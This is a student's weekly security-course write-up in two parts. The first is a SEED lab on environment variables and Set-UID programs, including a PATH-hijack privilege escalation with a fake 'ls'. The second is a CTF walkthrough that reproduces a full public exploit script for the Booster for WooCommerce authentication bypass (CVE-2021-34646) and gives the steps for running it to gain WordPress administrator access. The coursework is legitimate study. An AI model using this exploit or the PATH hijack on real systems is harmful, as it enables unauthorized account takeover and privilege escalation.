









# **Week #4**

## **SEEDs Lab**

https://seedsecuritylabs.org/Labs_20.04/Software/Environment_Variable_and_SetUID/

### **Task 1**

- Used printenv/env to print out the environment variables

**TERMINAL**



### **Task 2**

- Compiled the program given **(gcc myprintenv.c -o childPrint.out gcc myprintenv.c -o parentPrint.out)** into two binaries, each differing on which process would print the environment variables (parent or child)

- Run both programs and directed their output to different files. The programs' output was the environment variables they 'received'

- Compared the output files with the aid of the command diff and concluded that the output was the same for both programs

- **Conclusion:** The environment variables for a parent process and its child process, created through fork with default configuration, are the same

**Program**

``` c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

void printenv()
{
  int i = 0;
  while (environ[i] != NULL) {
      printf("%s\n", environ[i]);
      i++;
  }
}

void main()
{
  pid_t childPid;
  switch(childPid = fork()) {
    case 0:  /* child process */
      // printenv();          
      exit(0);
    default:  /* parent process */
      printenv();       
      exit(0);
  }
}
```

**Terminal**



### **Task 3**

- Compiled the program given **(gcc myenv.c)** and ran it. The program essencially starts another process through 'execve' which print its environment variables **(first two lines of the image)**

- There was no output. This can be explained by the fact that the 'execve' function starts a process and associates to it the array of environment variables given to it in the third argument. As this argument was a NULL pointer, the new process has no environment variables

- When we changed this parameter for the pointer of the parent process's environment variables array (environ), the program's output was exactly that, the parent's process environment variables. This was expected, as those would be the child process's ones given we passed them through 'execve' third argument **(lines 2-*)**, thus confirming what was mentioned in the last point

**Program**

``` c
#include <unistd.h>

extern char **environ;

int main()
{
  char *argv[2];

  argv[0] = "/usr/bin/env";
  argv[1] = NULL;

  execve("/usr/bin/env", argv, environ);  

  return 0 ;
}
```

**Terminal**




### **Task 4**

- Created a file called mysystem.c with the code given in the lab. This program calls the same process as the last one (Task 3), but through 'system' rather than execve. Compiled and ran the program

- The output was the parent process's environment variables, as expected, since the 'system' function uses 'execl', which in its turn calls 'execve' with the parent process's EVs, which finally executes /bin/sh with the argument passed to 'system'

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    system("/usr/bin/env");
    return 0 ;
}
```

**Terminal**


### **Task 5**

- A Set-UID program is a program which assumes its owner's privileges while running, rather than from the user who runs it
- Created a file called mypenvs.c with the code given, which prints its EVs. Then, compiled it and made root its owner and transformed it a Set-UID program through the instructions shown in the terminal
- Finally, as a normal user, changed some environment variables values and ran the program
- Checking the output of the program, although the EVs values had changed, one of them was not present, which was a suprise

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

int main() {
    int i = 0;
    while (environ[i] != NULL) {
    printf("%s\n", environ[i]);
    i++;
    }
}
```

Terminal | Execution result
:---------:|:---------:
 | 

### **Task 6**

- Because the a SET-UID program runs with its owner's privileges, a user running the program can manipulate the program's EVs to its favor. In the case given, the program executes the command 'ls' by calling the function system. We can manipulate the EVs of the program to trick it into calling another version of ls
- Only obstacle is that the calling system will ultimately lead to a call to /bin/dash, which has countermeasures for this situation, lowering the permissions of the process to the caller's permissions. For this matter, and in order to be able to exploit the situation above, we will change the shell program called to another one (/bin/zsh)
- After appending /home/seed to the PATH environment variable, we proceeded to create another version of ls in that directory, that made an operation only available to root
- Lastly, we compiled the program given and made it into a SET-UID program
- When we ran the program, instead of a list of files in a directory, we saw the message "BOO!" printed on the screen and the permissions of an 'important_file' changed, meaning our version of ls was the one executed. This demonstrates the power of changing EVs

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    system("ls");
    return 0;
}
```

**New ls in /home/seed**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {

    printf("BOO!\n");
    system("chmod 777 /home/seed/Documents/important_file");

    return 0;
}
```

Creating new ls | Executing program given
:---------:|:---------:
 | 

Executing new ls directly | Executing program given result
:---------:|:---------:
 | 

## **CTF Week #4**

**Objective:** Login with an administrator account in a Wordpress server, using a CVE with a known exploit.

**Targeted address**: [CTF-FSI](http://ctf-fsi.fe.up.pt:5001), only availabe inside Feup's network.

#### **Identify valuable information by browsing the web application.**

|   Plugin/Framework   |  Version   |  Source Code  |
| :--: | :--: | :--: |
| Wordpress | 5.8.1 | |
| WooCommerce | 5.7.1 | 
| Booster for WooCommerce | 5.4.3 |  |

#### **Vulnerability Search**

  * **Wordpress 5.8.1** - CVE's affecting this WP version haven't yet been identified nor reported.
  * **WooCommerce 5.7.1** - CVE's affecting this WooCommerce version haven't yet been identified nor reported.
  * **Booster for WooCommerce 5.4.3** - Versions up to, and including, 5.4.3, of the Booster for WooCommerce WordPress plugin are **vulnerable to authentication bypass**.

**Flag 1 Identified ->** flag{[CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646)}


#### **Search for an available exploit online**

* [Exploit](https://www.exploit-db.com/exploits/50299)

``` python 
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64  # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
      url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
      print("status code != 200")
      print(r.headers)
      sys.exit(-1)

def email_time_to_timestamp(s):
  tt = email.utils.parsedate_tz(s)
  if tt is None: return None
  return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
  print(f"{W}Timestamp: {B}" + date)
  print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
  print("We need to generate multiple timestamps in order to avoid delay related timing errors")
  print("One of the following links will log you in...\n")

printBanner()

for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
      hash = hashlib.md5(str(unix-i).encode()).hexdigest()
      print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
      token='{"id":"'+ id +'","code":"'+hash+'"}'
      token = base64.b64encode(token.encode()).decode()
      token = token.rstrip("=") # remove trailing =
      link = url+"my-account/?wcj_verify_email="+token
      print(link + f"\n{RST}")

```

#### **Exploit the Vulnerability**

 * Pick a user-ID, accessing http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/ 

 * Download the script and run it ./saved_Script.py http://ctf-fsi.fe.up.pt:5001/ 1
  

 * Insert one of the links above in the browser, and you should be logged in as administrator
 

 * Access [WordPress management page](http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php)

 * **Capture the flag** flag{ecbdbe236f3bd5b10d67619470285d43}
  
